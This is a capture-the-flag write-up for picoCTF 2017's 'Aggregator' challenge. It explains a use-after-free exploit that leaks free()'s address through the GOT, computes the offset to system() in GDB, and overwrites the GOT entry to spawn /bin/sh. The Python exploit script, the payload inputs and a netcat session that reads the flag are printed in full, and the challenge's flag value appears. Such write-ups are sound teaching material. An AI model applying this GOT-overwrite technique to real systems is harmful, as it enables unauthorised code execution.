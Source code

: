 # Aggregator

```
I wrote a program to help me synthesize my log files. You can edit the log files to add annotations that will print out aggregated information. Because the original program that outputs the logs was a bit faulty, I also included the ability to clear a single day of logs.
Find my aggregator running on shell2017.picoctf.com:13902. aggregator.c aggregator
HINTS
Does it look like there is a stack vulnerability?
```

We noticed that there was a use-after-free error, so we played around with inputs in GDB until we got a writable data pointer that also pointed to the location of an active table entry. Then we wrote over the pointer to the table entry's data with the pointer to the GOT address of free() in order to leak the location of free to the console. We used the following python script

```python
python
output = "3-1-1 999\n"
output += "2-1-1 420\n"
for i in range(1, 42): # Adding 41 values to 4-1-1 causes the size to increase to 80 (10 doubles to 20 and so on)
  output += "4-1-1 " + str(i) + "\n" # This is large enough to cause a chain to be allocated over the pointer
output += "~2-1-1\n" # To be honest, I just kind of guessed from here on until I got a pointer I could use in GDB
output += "~3-1-1\n"
output += "~4-1-1\n"
output += "5-1-1\n"
output += "1-1-1 6299376\n" # This is the pointer to the GOT
output += "1-1-1 72340172838076673\n" # Sets the day to 1
output += "1-1-1 18446744073709551615\n" # Sets size to something very large
output += "1-1-1 1\n" # Size should be 1 so we can isolate the pointer
output += "1-1-1 0\n" # Next chain should be NULL
output += "am 4-1\n"
print output
```

Next we had to find the offset between the actual address of free() and system() at runtime in GDB. The values at the given GOT addresses at runtime. We did this by attaching GDB to the running process after leaking the glibc address of free. It was important to do this on a system running the same version of libc as the shell server, so we just carried out this step on the shell server.

```
$ (python aggregator.py; cat) | ./aggregator
140283963758080
^Z[2] + Stopped                    (python aggregator.py; cat) | ./aggregator
$ gdb -q -p `pidof aggregator`
Excess command line arguments ignored. (21905)
22110: No such file or directory.
Attaching to process 23535

Program received signal SIGTSTP, Stopped (user).
Reading symbols from /home/rjm27trekkie/aggregator...(no debugging symbols found)...done.
Reading symbols from /lib/x86_64-linux-gnu/libc.so.6...Reading symbols from /usr/lib/debug//lib/x86_64-linux-gnu/libc-2.19.so...done.
done.
Loaded symbols for /lib/x86_64-linux-gnu/libc.so.6
Reading symbols from /lib64/ld-linux-x86-64.so.2...Reading symbols from /usr/lib/debug//lib/x86_64-linux-gnu/ld-2.19.so...done.
done.
Loaded symbols for /lib64/ld-linux-x86-64.so.2
0x00007f9667d9cba0 in __read_nocancel () at ../sysdeps/unix/syscall-template.S:81
81      ../sysdeps/unix/syscall-template.S: No such file or directory.
(gdb) p system
$1 = {<text variable, no debug info>} 0x7f9667d02490 <__libc_system>
(gdb) q
A debugging session is active.

        Inferior 1 [process 23535] will be detached.

Quit anyway? (y or n) y
Detaching from program: /home/rjm27trekkie/aggregator, process 23535
$ python -c "print '{0:02x}'.format(0x7f9667d02490 - 140283963758080)"
-3b170
$
```

The inputs after this point will change every time. They will need to take the following format.

```
aM 4-1 THIS PRINTS THE ADDRESS OF FREE
4-1-1 ADDRESS OF SYSTEM (offset: -0x3b170)
4-1-1 ADDRESS OF SYSTEM
a+ 1-1 ; /bin/sh
```

We pipe the output of the script into the program. Then we add the offset to the address for free, writing system() to the GOT entry. Finally, a line containing "; /bin/sh" is added so that program would call system("/bin/sh") when it attempts to call free(). This gives a shell. Then we just we cat the flag. 

```
$ (python aggregator.py; cat) | nc shell2017.picoctf.com 13902
140627465098752
4-1-1 140627464856720
4-1-1 140627464856720
a+ 1-1 ; /bin/sh
sh: 1: a+: not found
ls
aggregator
flag.txt
xinetd_wrapper.sh
cat flag.txt
5eaacf941a181a45e0b17327842a72f5
```
